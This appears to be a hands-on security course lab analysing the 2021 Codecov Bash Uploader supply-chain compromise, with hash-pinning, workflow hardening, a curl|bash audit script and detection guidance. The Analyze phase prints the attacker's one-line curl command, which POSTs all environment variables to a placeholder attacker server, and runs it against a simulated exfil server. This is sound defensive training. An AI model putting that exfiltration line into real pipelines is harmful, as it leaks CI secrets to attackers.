

# Lab 6.7: Case Study. Codecov Bash Uploader

<div class="lab-meta">
  <span>Understand: ~8 min | Analyze: ~7 min | Lessons: ~10 min | Detect: ~5 min</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="../../tier-2/2.4-secret-exfiltration/">Lab 2.4</a></span>
</div>

On April 1, 2021, Codecov disclosed that their Bash Uploader script, used by thousands of CI/CD pipelines, had been modified by an attacker. The compromised script exfiltrated every environment variable from the CI runner: AWS keys, GitHub tokens, Docker registry credentials, database passwords. The attack persisted undetected for over two months. The canonical example of why `curl | bash` is dangerous in CI/CD.

---

### Attack Flow



---

## Environment

| Component | Path | Description |
|-----------|------|-------------|
| CI Pipeline | `/app/ci-pipeline/` | Simulated GitHub Actions workflow using Codecov uploader |
| Uploader Scripts | `/app/uploader/` | Legitimate and compromised versions of the Bash uploader |
| Exfil Server | `exfil-server:8080` | Simulated attacker server receiving exfiltrated variables |
| Defense Templates | `/app/defenses/` | Pinned and verified script alternatives |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. curl | bash in CI/CD Pipelines"

    **Goal:** Understand why piping external scripts into bash is a supply chain risk.

### Step 1: The timeline

| Date | Event |
|------|-------|
| 2021-01-31 | Attackers modify Codecov's Bash Uploader on codecov.io |
| 2021-01-31 to 2021-04-01 | Compromised script runs in thousands of CI/CD pipelines (~2 months) |
| 2021-04-01 | Codecov discovers and discloses the breach |
| 2021-04-15 | Hashicorp, Twitch, and others confirm they were affected |

### Step 2: How the uploader was used

```bash
cat /app/ci-pipeline/workflow-before.yml
```

The standard integration: `curl -s https://codecov.io/bash | bash`. Downloads and executes immediately with full access to the CI environment.

### Step 3: Download a script and verify its hash

```bash
curl -fsSL http://exfil-server:8080/uploader.sh -o /tmp/uploader.sh
sha256sum /tmp/uploader.sh
cat /app/uploader/known-good-hash.txt
```

Compare the hash. If they differ, the script was modified in transit or at the source. This is exactly what happened to Codecov's uploader: the hash changed, but nobody was checking.

### Step 4: What CI environments contain

```bash
cat /app/ci-pipeline/env-example.txt
```

`GITHUB_TOKEN`, `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `DOCKER_PASSWORD`, `NPM_TOKEN`, `DATABASE_URL`. The Bash Uploader had access to all of them.

---

???+ warning "Phase 2: ANALYZE. The Modified Uploader Script"

    **Goal:** Walk through the exfiltration mechanism.

### Step 1: Compare legitimate vs. compromised scripts

```bash
diff /app/uploader/legitimate-uploader.sh /app/uploader/compromised-uploader.sh
```

The attacker added one line:

```bash
curl -sm 0.5 -d "$(git remote -v)<<<<<< ENV $(env)" \
    http://<attacker-server>/upload/v2 || true
```

Silent mode, 0.5s timeout, sends all env vars, `|| true` suppresses errors.

### Step 2: See the exfiltration

```bash
export GITHUB_TOKEN="ghp_SIMULATED_TOKEN_12345"
export AWS_ACCESS_KEY_ID="AKIA_SIMULATED_KEY"
export AWS_SECRET_ACCESS_KEY="SIMULATED_SECRET_KEY_XXXXX"
export NPM_TOKEN="npm_SIMULATED_TOKEN_67890"

bash /app/uploader/compromised-uploader.sh
curl -s http://exfil-server:8080/collected | python3 -m json.tool
```

Every environment variable exfiltrated. The pipeline showed "Coverage uploaded successfully."

### Step 3: How the attacker gained access

```bash
cat /app/analysis/access-vector.txt
```

A credential leaked from Codecov's Docker image creation process allowed the attacker to modify the script on their CDN. Modifying it affected all users immediately.

---

???+ abstract "Checkpoint"
    You should see the exfiltrated environment variables on the exfil server. Run `curl -s http://exfil-server:8080/collected | python3 -m json.tool` to confirm.

---

???+ success "Phase 3: LESSONS. Eliminating curl | bash"

    **Goal:** Replace `curl | bash` with pinned, verified alternatives.

### Lesson 1: Pin scripts by hash

```bash
cat > /app/defenses/pinned-uploader.sh << 'SHELLEOF'
#!/bin/bash
EXPECTED_SHA="d6aa3207c4908d123bd8af62ec0538e3f2b9f257c3de62fad4e29cd3b59b41d9"
UPLOADER_URL="https://uploader.codecov.io/v0.1.0_5124/linux/codecov"

curl -fsSL "$UPLOADER_URL" -o /tmp/codecov
ACTUAL_SHA=$(sha256sum /tmp/codecov | awk '{print $1}')

if [ "$ACTUAL_SHA" != "$EXPECTED_SHA" ]; then
    echo "ERROR: Codecov uploader hash mismatch!"
    echo "  Expected: $EXPECTED_SHA"
    echo "  Got:      $ACTUAL_SHA"
    exit 1
fi

chmod +x /tmp/codecov
/tmp/codecov upload
SHELLEOF
chmod +x /app/defenses/pinned-uploader.sh
```

### Lesson 2: Use GitHub Actions instead of scripts

```bash
cat > /app/defenses/workflow-after.yml << 'YMLEOF'
name: Tests with Coverage
on: [push, pull_request]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run tests with coverage
        run: pytest --cov=. --cov-report=xml
      - name: Upload coverage
        uses: codecov/codecov-action@v4
        with:
          token: ${{ secrets.CODECOV_TOKEN }}
          files: coverage.xml
          fail_ci_if_error: true
YMLEOF
```

### Lesson 3: Restrict CI environment variable access

```bash
cat > /app/defenses/restricted-workflow.yml << 'YMLEOF'
name: Tests with Minimal Secrets
on: [push, pull_request]
jobs:
  test:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@v4
      - name: Run tests
        run: pytest --cov=.
      - name: Upload coverage
        uses: codecov/codecov-action@v4
        with:
          token: ${{ secrets.CODECOV_TOKEN }}
          files: coverage.xml
YMLEOF
```

### Lesson 4: Audit all curl | bash patterns

```bash
cat > /app/defenses/audit-curl-bash.sh << 'SHELLEOF'
#!/bin/bash
echo "=== Scanning for curl|bash patterns ==="
FOUND=0
for f in $(find /app -name "*.yml" -o -name "*.yaml" -o -name "Makefile" -o -name "*.sh"); do
    if grep -Pn 'curl.*\|\s*(ba)?sh|wget.*\|\s*(ba)?sh|curl.*\|\s*python|pipe.*bash' "$f" 2>/dev/null; then
        echo "  FOUND in: $f"
        FOUND=$((FOUND + 1))
    fi
done
if [ "$FOUND" -gt 0 ]; then
    echo "ALERT: Found $FOUND file(s) with curl|bash patterns."
else
    echo "CLEAN: No curl|bash patterns found."
fi
SHELLEOF
chmod +x /app/defenses/audit-curl-bash.sh
/app/defenses/audit-curl-bash.sh
```

### Verify understanding

```bash
weaklink verify 6.7
```

---

??? danger "Phase 4: DETECT. Identifying Script Modification and Secret Exfiltration"

    **Goal:** Detect when external scripts are modified or CI environments are exfiltrating secrets.

Core signal: **outbound HTTP POST from CI runners to unexpected endpoints** and **downloaded scripts with different hashes than expected**.

Detection targets:

- CI runners making HTTP POST to unapproved endpoints
- `curl | bash` or `wget | bash` in CI logs
- Downloaded scripts with SHA256 mismatches
- Large HTTP POST bodies from CI runners (env var dump)
- CI secrets accessed by steps that do not need them

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modified the Codecov Bash Uploader on codecov.io |
| **Command and Scripting Interpreter: Bash** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Compromised script executed with full environment access |
| **Unsecured Credentials: Credentials In Files** | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | CI environment variables exfiltrated via HTTP POST |
| **Exfiltration Over Web Service** | [T1567](https://attack.mitre.org/techniques/T1567/) | Secrets sent to attacker-controlled server |

---

??? tip "SOC Relevance"

    **Alert:** "CI runner making outbound POST to unapproved endpoint" or "Downloaded CI script hash mismatch."

    The pattern trades security for convenience. When the script was modified, every CI pipeline became an exfiltration channel immediately. No PR needed, no code review, no deployment.

    **Triage:** Search all workflow files for `curl | bash` patterns, assume all CI env vars from the exposure window are compromised, rotate ALL secrets (AWS keys, tokens, passwords), check CI logs for outbound POST to unfamiliar endpoints, audit downstream systems for stolen credential usage.

---

## What You Learned

1. **`curl | bash` is a supply chain attack waiting to happen.** No verification, no pinning, no visibility into changes.
2. **CI environments are treasure troves of secrets.** A single exfiltration line captures every credential in environment variables.
3. **Pin scripts by hash, not URL.** Verifying SHA256 before execution detects modifications at the source.

## Further Reading

- [Codecov: Bash Uploader Security Update](https://about.codecov.io/security-update/)
- [HashiCorp: Codecov Incident Response](https://discuss.hashicorp.com/t/hcsec-2021-12-codecov-security-event-and-hashicorp-gpg-key-exposure/23512)
- [OpenSSF: Best Practices for CI/CD Security](https://best.openssf.org/SCM-Best-Practices/)
